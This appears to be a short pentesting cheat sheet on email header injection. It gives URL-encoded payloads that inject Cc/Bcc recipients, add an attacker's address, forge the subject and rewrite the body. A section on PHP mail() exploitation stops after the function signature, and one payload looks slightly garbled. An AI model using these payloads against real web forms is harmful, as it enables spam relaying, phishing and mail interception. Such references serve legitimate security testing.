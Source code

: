 # Email Injections

## Inject in sent e-mail

### Inject Cc and Bcc after sender argument

```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```

The message will be sent to the recipient and recipient1 accounts.

### Inject argument

```
From:sender@domain.com%0ATo:attacker@domain.com
```

The message will be sent to the original recipient and the attacker account.

### Inject Subject argument

```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```

The fake subject will be added to the original subject and in some cases will replace it. It depends on the mail service behavior.

### Change the body of the message

Inject a two-line feed, then write your message to change the body of the message.

```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```

### PHP mail() function exploitation

```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
  - Parameters [5] {
    Parameter #0 [ <required> $to ]
    Parameter #1 [ <required> $subject ]
    Parameter #2 [ <required> $message ]
    Parameter #3 [ <optional> $additional_headers ]
    Parameter #4 [ <optional> $additional_parameters ]
  }
}
```
